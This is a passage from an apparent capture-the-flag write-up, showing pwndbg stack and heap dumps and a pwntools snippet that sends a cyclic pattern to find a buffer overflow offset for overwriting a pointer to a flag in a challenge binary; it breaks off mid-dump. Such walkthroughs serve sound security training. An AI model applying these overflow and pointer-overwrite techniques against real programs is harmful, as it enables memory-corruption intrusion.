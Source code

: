 ```console
04:0020│-090 0x7fff328dd110 ◂— 0xa /* '\n' */
05:0028│-088 0x7fff328dd118 —▸ 0x7fcbae941780 (_IO_2_1_stdout_) ◂— 0xfbad2887
06:0030│-080 0x7fff328dd120 —▸ 0x5641a1559020 (stdout@GLIBC_2.2.5) —▸ 0x7fcbae941780 (_IO_2_1_stdout_) ◂— 0xfbad2887
07:0038│-078 0x7fff328dd128 —▸ 0x7fcbae93d600 (_IO_file_jumps) ◂— 0x0
08:0040│-070 0x7fff328dd130 —▸ 0x7fcbae99b000 (_rtld_global) —▸ 0x7fcbae99c2d0 —▸ 0x5641a1555000 ◂— 0x10102464c457f
09:0048│-068 0x7fff328dd138 —▸ 0x7fcbae7edbc9 (_IO_do_write+25) ◂— cmp rbx, rax
0a:0050│-060 0x7fff328dd140 —▸ 0x7fcbae941780 (_IO_2_1_stdout_) ◂— 0xfbad2887
0b:0058│-058 0x7fff328dd148 —▸ 0x7fcbae7ee053 (_IO_file_overflow+259) ◂— cmp eax, -1
0c:0060│-050 0x7fff328dd150 ◂— 0x2c /* ',' */
0d:0068│-048 0x7fff328dd158 —▸ 0x5641a1557378 ◂— '\nSanta: Well done, now you may get the flag.'
0e:0070│-040 0x7fff328dd160 —▸ 0x7fcbae941780 (_IO_2_1_stdout_) ◂— 0xfbad2887
0f:0078│-038 0x7fff328dd168 —▸ 0x7fcbae7e2cfa (puts+506) ◂— cmp eax, -1
10:0080│-030 0x7fff328dd170 —▸ 0x7fff328dd318 —▸ 0x7fff328de2b3 ◂— 'COLORFGBG=15;0'
11:0088│-028 0x7fff328dd178 —▸ 0x7fcbae7add14 (random+52) ◂— xor eax, eax
12:0090│-020 0x7fff328dd180 —▸ 0x7fff328dd308 —▸ 0x7fff328de294 ◂— '/home/kali/Downloads/hv16/vuln'
13:0098│-018 0x7fff328dd188 —▸ 0x5641a30e2480 ◂— 0x6b61667b33320000
14:00a0│-010 0x7fff328dd190 ◂— 0x500000000
15:00a8│-008 0x7fff328dd198 —▸ 0x5641a30e22a0 ◂— 0x5641a30e2
...
```

Near the bottom of the stack (higher addresses) we can see a pointer to the heap `0x5641a30e2480` (the color of the
address reveals the fact that it points to the heap). Looking at the content on the heap:

```console
> x/10s 0x5641a30e2480

0x5641a30e2480: ""
0x5641a30e2481: ""
0x5641a30e2482: "23{fake_flag}\n"
0x5641a30e2491: ""
0x5641a30e2492: ""
```

Seems like we simply need to change the `80` to `82` to be able to influence the pointer. Luckily, our buffer overflow
does not append any special characters. To find the correct offset, we can send a cyclic string and then observe what
was written at offset 13 onto the stack:

```python
io.recvuntil(b"else?")
io.sendline(cyclic(400))
```

```
> stack 50

pwndbg> stack 50
00:0000│ rsp 0x7ffe483076d0 ◂— 0xa68 /* 'h\n' */
01:0008│-0a8 0x7ffe483076d8 ◂— 0x7b333256486f70 /* 'poHV23{' */
02:0010│ rdi 0x7ffe483076e0 ◂— 0x6161616261616161 ('aaaabaaa')
03:0018│-098 0x7ffe483076e8 ◂— 0x6161616461616163 ('caaadaaa')
04:0020│-090 0x7ffe483076f0 ◂— 0x6161616661616165 ('eaaafaaa')
05:0028│-088 0x7ffe483076f8 ◂— 0x6161616861616167 ('gaaahaaa')
06:0030│-080 0x7ffe48307700 ◂— 0x6161616a61616169 ('iaaajaaa')
07:0038│-078 0x7ffe48307708 ◂— 0x6161616c6161616b ('kaaalaaa')
08:0040│-070 0x7ffe48307710 ◂— 0x6161616e6161616d ('maaanaaa')
09:0048│-068 0x7ffe48307718 ◂— 0x616161706161616f ('oaaapaaa')
0a:0050│-060 0x7ffe48307720 ◂— 0x6161617261616171 ('qaaaraaa')
0b:0058│-058 0x7ffe48307728 ◂— 0x6161617461616173 ('saaataaa')
0c:0060│-050 0x7ffe48307730 ◂— 0x6161617661616175 ('uaaavaaa')
0d:0068│-048 0x7ffe48307738 ◂— 0x6161617861616177 ('waaaxaaa')
```